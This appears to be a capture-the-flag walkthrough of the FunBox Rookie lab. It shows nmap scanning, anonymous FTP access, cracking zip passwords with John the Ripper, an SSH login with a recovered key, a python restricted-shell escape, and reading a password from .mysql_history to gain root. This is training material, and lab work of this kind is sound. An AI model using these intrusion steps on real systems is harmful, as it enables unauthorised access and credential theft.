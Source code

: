 *FunBox Rookie*
**RECON**
---
**Ip Search**   
Apache Server  
![image19](https://user-images.githubusercontent.com/66635295/159421830-8e052a02-4fb1-42a7-bb76-a29384f7eb43.png)  


**Nmap Scan**  
<pre>nmap -sC -sV 192.168.52.107 </pre>  
-safe scripts -service version  
Anonymous FTP Login available, various visible zip files   
![image14](https://user-images.githubusercontent.com/66635295/159421862-50889fc0-271d-4119-b938-c878c7eebef6.png)  

**ENUMURATION**
---
<pre>ftp 192.168.52.107</pre>
<pre>Name: anonymous </pre>
<pre>Password: anonymous@domain.com </pre>  
![image5](https://user-images.githubusercontent.com/66635295/159422223-b78bc143-e7ca-4dad-8f8c-f0a2e94064af.png)
**Grab zip Files**
<pre> mget homer.zip john.zip tom.zip </pre>  
![image15](https://user-images.githubusercontent.com/66635295/159422555-864c3dc4-7503-48f3-93d4-69ae9dc76c4b.png)
**Inspect File**
Password locked id_rsa keys
![image18](https://user-images.githubusercontent.com/66635295/159422579-2c509021-3e9f-4e53-9e29-198100978dda.png)
**Change zip to Crack Passwords**  
 <pre> zip2john homer.zip homer.hash </pre>
![image17](https://user-images.githubusercontent.com/66635295/159422865-d16a8a8c-a474-4ff5-aa2a-568b52fd8a9b.png)
**Insall word list**
<pre> rockyou.txt </pre>
![image12](https://user-images.githubusercontent.com/66635295/159422892-ee67dea5-9ace-43a8-af9c-eed5e8b6236e.png)
**Organize files into one directory** 
![image4](https://user-images.githubusercontent.com/66635295/159422979-7c4dfbd1-289d-4f12-8ac8-58bea37d4f15.png)
**John the  Ripper**
<pre> john --wordlist=$rockyou tom.hash </pre>
![image3](https://user-images.githubusercontent.com/66635295/159423177-7d3650d4-892e-4514-af1f-9eec7a14fefa.png)
**Extract tom.zip**
<pre> iubire </pre>
![image2](https://user-images.githubusercontent.com/66635295/159425066-154a9577-fa2b-4aae-a58f-105cf2776c57.png)
Id_rsa key
![image6](https://user-images.githubusercontent.com/66635295/159425574-e65d557f-e725-46bb-893a-acf582b37d25.png)

**PRIVILEGE ESCALATION**
---
**SSH**
<pre>  ssh -i id_rsa tom@192.168.52.107 </pre>
Success logged in as tom
![image10](https://user-images.githubusercontent.com/66635295/159425641-8fdceb4d-d295-4c66-86f0-880bfd29e74f.png)
**Flag**
<pre> cat local.txt  </pre>
![image8](https://user-images.githubusercontent.com/66635295/159425808-c0e979c9-8554-4c2d-8349-9dbe9f98c006.png)
Restricted Shell
![image11](https://user-images.githubusercontent.com/66635295/159425861-3fc58b29-97e9-4023-aee7-03cd929aac54.png)
**Checking Sudo Privileges**
Tom can run all commands definitely worth pursuing
![image9](https://user-images.githubusercontent.com/66635295/159426027-b8ee5bde-ba1b-4a8b-bf64-10696f627734.png)
**Remove Shell Restrictions**
<pre> python3 -c ‘import os; os.system(“/bin/bash”);’ </pre>
![image7](https://user-images.githubusercontent.com/66635295/159426463-79d3e971-ccc3-4a57-a84a-ecc6ce5c9a92.png)
**Check for hidden files**
<pre>ls -la </pre>
![image16](https://user-images.githubusercontent.com/66635295/159426482-c8a1c784-fca5-4e7a-b79c-423ee045c0f4.png)
**Reading mysql_history**
<pre> cat .mysql_history  </pre>
Reveals password
![image1](https://user-images.githubusercontent.com/66635295/159426632-25601f14-984b-4dce-b627-3014407b34a1.png)

**ROOT ESCALATION**
---
**Root Flag**  
<pre> sudo su  </pre>  
<pre> xx11yy22!  </pre>  
<pre> cat  proof.txt  </pre>  
![image13](https://user-images.githubusercontent.com/66635295/159426848-a3dc6b3f-670c-4b69-a82c-aa354baa4b95.png)


